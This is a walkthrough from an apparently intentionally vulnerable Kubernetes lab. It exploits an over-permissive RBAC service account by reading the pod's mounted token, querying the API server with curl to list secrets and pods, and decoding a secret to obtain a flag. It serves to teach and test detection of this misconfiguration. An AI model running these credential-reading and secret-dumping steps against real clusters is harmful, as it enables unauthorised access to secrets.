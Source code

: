 # RBAC least privileges misconfiguration

In this scenario, we will see how simple misconfiguration like this can gain access to secrets, more resources, and information

We commonly see in the real world where developers and DevOps teams tend to provide extra privileges than required. This provides attackers more control and privileges than they intended to be. In this scenario, you can leverage the service account bound to the pod to provide webhookapikey access, but using this attacker can gain control over other secrets and resources

## The goal: Find the k8s_goat_flag flag value by gaining access to the Kubernetes secret k8svaultapikey by exploiting the RBAC privileges to complete this scenario

Run the following command using the name of your hunger-check-pod which runs ion the big-monolith namespace

```
kubectl get pods -n big-monolith
```

```
kubectl exec -n big-monolith -it <name-of-your-hunger-check-pod> -- /bin/bash
```

This deployment has a custom ServiceAccount mapped with an overly permissive policy/privilege. As an attacker, we can leverage this to gain access to other resources and services

By default the Kubernetes stores all the tokens and service accounts information in the default place, navigate to there to find the useful information

```
cd /var/run/secrets/kubernetes.io/serviceaccount/
```

```
ls -larth
```

Now we can use this information to query and talk to the Kubernetes API service with the available permissions and privileges
lets export some variables to be used to query the API server

```
export APISERVER=https://${KUBERNETES_SERVICE_HOST}
```
```
export SERVICEACCOUNT=/var/run/secrets/kubernetes.io/serviceaccount
```
```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```
```
export NAMESPACE=$(cat ${SERVICEACCOUNT}/namespace)
```
```
export TOKEN=$(cat ${SERVICEACCOUNT}/token)
```
```
export CACERT=${SERVICEACCOUNT}/ca.crt
```

Now we can explore the Kubernetes API with the token and the constructed queries

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api
```

To query the available secrets in the default namespace run the following command

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/secrets
```

To query the secrets specific to the namespace

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets
```

To query the pods in the specific namespace

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/pods
```

Get the k8svaulapikey value from the secrets

```
curl --cacert ${CACERT} --header "Authorization: Bearer ${TOKEN}" -X GET ${APISERVER}/api/v1/namespaces/${NAMESPACE}/secrets | grep k8svaultapikey 
```

We can decode the base64 encoded value using the following command

```
echo "azhzLWdvYXQtODUwNTc4NDZhODA0NmEyNWIzNWYzOGYzYTI2NDlkY2U=" | base64 -d
```

Soon you will be able to see the Defender alerts showing up in the portal

![rbac-1](/images/rbac-1.PNG)

![rbac-2](/images/rbac-2.PNG)